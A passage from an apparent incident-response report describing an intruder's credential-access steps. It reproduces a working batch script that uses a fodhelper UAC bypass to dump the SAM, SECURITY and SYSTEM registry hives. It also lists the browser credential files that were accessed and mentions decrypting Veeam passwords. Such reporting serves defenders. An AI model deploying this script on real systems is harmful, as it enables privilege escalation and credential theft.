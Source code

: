
[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-7.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-7.png)


[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-9.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-9.png)


### Credential Access


Threat actors performed dumping of SAM, SECURITY and SYSTEM registry hives using a batch script named “fodhelper\_reg\_hashes.bat”.


Contents of fodhelper\_reg\_hashes.bat are as follows:



```
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\sam c:\ProgramData\sam.save" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe

reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\security c:\ProgramData\security.save" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe

reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\system c:\ProgramData\system.save" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe

reg.exe delete hkcu\software\classes\ms-settings /f >nul 2>&1
```

They also performed enumeration of the web browser information using [more](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/more).


[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-11.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-11.png)


The following files were accessed:



```
Users\<>\AppData\Local\Microsoft\Edge\User Data\Default\Login Data
Users\<>\AppData\Local\Microsoft\Edge\User Data\Default\Cookies
C:\Users\<>\AppData\Local\Temp\edge-cookies.json

```

Using a well known technique documented on the [Veeam backup forum,](https://forums.veeam.com/veeam-backup-replication-f2/recover-esxi-password-in-veeam-t34630.html) the threat actor managed to decrypt passwords used by Veeam. The encryption method used by Veeam is [Data Protection API/DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).
